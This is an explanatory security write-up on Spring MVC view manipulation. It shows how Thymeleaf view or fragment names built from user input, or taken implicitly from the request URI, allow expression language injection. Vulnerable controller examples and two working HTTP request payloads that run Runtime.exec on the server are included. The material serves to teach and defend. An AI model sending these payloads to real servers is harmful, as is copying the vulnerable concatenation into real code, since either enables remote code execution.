

# Views overview

Consider a simple Spring application that uses Thymeleaf as its templating engine:

```java
@Controller
public class HelloController {

    @GetMapping("/")
    public String index(Model model) {
        model.addAttribute("message", "happy birthday");
        return "welcome";
    }
}
```

The `index` method will be called for every `GET` request for the root url `/`. It has no parameters and returns the static string `welcome`. Spring interprets `welcome` as the name of the `View` and tries to find the `resources/templates/welcome.html` file located in the application resources. If Spring finds it, renders a view from the template file and returns to the user.

# Untrusted Thymeleaf view name

If Thymeleaf view engine is used (the most popular for Spring), the template might look like this one:

```html
<!DOCTYPE HTML>
<html lang="en" xmlns:th="http://www.thymeleaf.org">
<div th:fragment="header">
    <h3>Spring Boot Web Thymeleaf Example</h3>
</div>
<div th:fragment="main">
    <span th:text="'Hello, ' + ${message}"></span>
</div>
</html>
```

Thymeleaf engine supports [file layouts](https://www.thymeleaf.org/doc/articles/layouts.html), that allows you to specify a fragment in the template by using `<div th:fragment="main">` and then request only this fragment from the view:

```java
@GetMapping("/main")
public String fragment() {
    return "welcome :: main";
}
```

Thymeleaf is intelligent enough to return only the main `div` from the `welcome` view, but not the whole document.

Before loading the template from the filesystem, [Spring ThymeleafView](https://github.com/thymeleaf/thymeleaf-spring/blob/74c4203bd5a2935ef5e571791c7f286e628b6c31/thymeleaf-spring3/src/main/java/org/thymeleaf/spring3/view/ThymeleafView.java) class parses the template name as an expression:

```java
try {
   // By parsing it as a standard expression, we might profit from the expression cache
   fragmentExpression = (FragmentExpression) parser.parseExpression(context, "~{" + viewTemplateName + "}");
}
```

As a result, if template name or fragment is concatenated with untrusted data, it can lead to expression language injection and hence RCE.

For instance, the following methods are vulnerable to expression language injection:

```java
@GetMapping("/path")
public String path(@RequestParam String lang) {
    // potential path traversal, but limited to the 'templates' folder
    return "user/" + lang + "/welcome";
}

@GetMapping("/fragment")
public String fragment(@RequestParam String section) {
    return "welcome :: " + section;
}
```

The following request creates the `executed` file on the server:

```http
GET /path?lang=__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("touch executed").getInputStream()).next()}__::.x HTTP/1.1
Host: vulnerable-website.com
```



This exploit uses [expression preprocessing](https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/). In order for the expression to be executed by the Thymeleaf, no matter what prefixes or suffixes are, it is necessary to surround it with `__${` and `}__::.x`.

# Untrusted implicit view name

Controllers do not always return strings that explicitly tell Spring what view name to use. As described in the [documentation](https://docs.spring.io/spring-framework/docs/current/reference/html/web.html#mvc-ann-return-types), for some return types such as `void`, `java.util.Map` or `org.springframework.ui.Model`, the view name is implicitly determined through a `RequestToViewNameTranslator`.

This means that at first glance such a controller may seem completely innocent, it does almost nothing, but since Spring does not know which view name to use, it **takes it from the request URI**.

```java
@GetMapping("/doc/{document}")
public void getDocument(@PathVariable String document) {
    log.info("Retrieving " + document);
}
```

Specifically, `DefaultRequestToViewNameTranslator` does the following:

```java
/**
 * Translates the request URI of the incoming {@link HttpServletRequest}
 * into the view name based on the configured parameters.
 * @see org.springframework.web.util.UrlPathHelper#getLookupPathForRequest
 * @see #transformPath
 */
@Override
public String getViewName(HttpServletRequest request) {
    String lookupPath = this.urlPathHelper.getLookupPathForRequest(request, HandlerMapping.LOOKUP_PATH);
    return (this.prefix + transformPath(lookupPath) + this.suffix);
}
```

So, it becomes vulnerable because the user controlled data (URI) comes in directly to view name and is resolved as an expression:

```http
GET /doc/__${T(java.lang.Runtime).getRuntime().exec("touch executed")}__::.x HTTP/1.1
Host: vulnerable-website.com
```

# References

- [Spring View Manipulation Vulnerability](https://github.com/veracode-research/spring-view-manipulation/)